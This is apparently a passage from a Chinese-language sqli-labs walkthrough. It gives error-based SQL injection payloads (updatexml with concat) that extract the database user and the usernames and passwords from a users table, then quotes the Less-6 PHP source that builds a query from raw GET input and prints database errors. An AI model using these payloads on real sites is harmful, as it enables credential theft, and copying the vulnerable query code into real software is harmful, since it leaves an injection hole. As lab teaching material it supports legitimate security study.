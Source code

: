 答案

```
?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) --+
```

select user() 的位置可以换成其它注入语句

```
?id=1' and (updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1)) --+
```

```
?id=1' and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from users),1)),0x5e),1) --+        #可以substr函数里的1处依次加31
```

<img src="图片\Snipaste_2023-01-22_10-40-51.png" alt="Snipaste_2023-01-22_10-40-51" style="zoom:67%;" />

## Less-6

题目部分源码

```php
$id=$_GET['id'];
.........
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
.........
echo '<font size="3" color="#FFFF00">';
	print_r(mysql_error());    //此处为报错注入
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
```
